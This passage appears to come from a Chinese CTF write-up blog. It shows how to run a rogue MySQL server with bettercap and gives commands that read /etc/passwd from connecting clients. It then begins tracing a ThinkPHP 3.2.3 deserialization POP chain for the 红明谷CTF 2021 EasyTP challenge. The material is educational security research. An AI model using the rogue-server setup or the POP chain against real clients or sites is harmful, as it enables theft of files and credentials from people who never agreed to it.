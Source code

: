 我们构造一个具有以下属性的mysql伪服务端：

- 发送Server Greeting
- 等待client: Request Query package
- 回复请求Response file-transfer

需要发的包格式都在官方文档上可以找到：[Protocol::LOCAL_INFILE_Request](https://dev.mysql.com/doc/internals/en/com-query-response.html#packet-Protocol::LOCAL_INFILE_Request)  [Protocol::Handshake](https://dev.mysql.com/doc/internals/en/connection-phase-packets.html#packet-Protocol::Handshake)

几个已经集成过的伪造server: [bettercap](https://github.com/bettercap/bettercap)  [Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)

可以用bettercap进行完美实践

![image-20210702175622262](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210702175622262.png)

需要设置的项非常简单

```bash
set mysql.server.address 0.0.0.0	# 如果想用nps之类的代理工具映射到公网端口请务必设置此项
set mysql.server.infile /etc/passwd	# 想要读取的文件
set mysql.server.outfile /xxxx	# 保存到本地的位置
set mysql.server.port 1099	# 随意端口都可以
mysql.server on
```

## [红明谷CTF 2021]EasyTP

tp3.2.3，有一个现成的链子：[ThinkPHP v3.2.* （SQL注入&文件读取）反序列化POP链](https://f5.pm/go-53579.html)

![image-20211219155134609](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219155134609.png)

看Application\Home\Controller\IndexController.class.php的代码也跟这个文章中的示例代码大差不差，顺着这篇文章的思路跟一下

首先是全局寻找`__destruct()`函数

www/ThinkPHP/Library/Think/Image/Driver/Imagick.class.php

![image-20211219163343446](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219163343446.png)

寻找一个`destroy()`

www/ThinkPHP/Library/Think/Session/Driver/Memcache.class.php

![image-20211219163445086](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219163445086.png)

这里需要一个`$sessID`，PHP7下不传参会报错 PHP5不影响，`$this->sessionName`可控；接着找含有`delete()`的类

www/ThinkPHP/Mode/Lite/Model.class.php

![image-20211219163653936](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219163653936.png)

![image-20211219163713363](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211219163713363.png)

相当于传入的参数都可用，可以控制自带的数据库类的`delete()`方法了
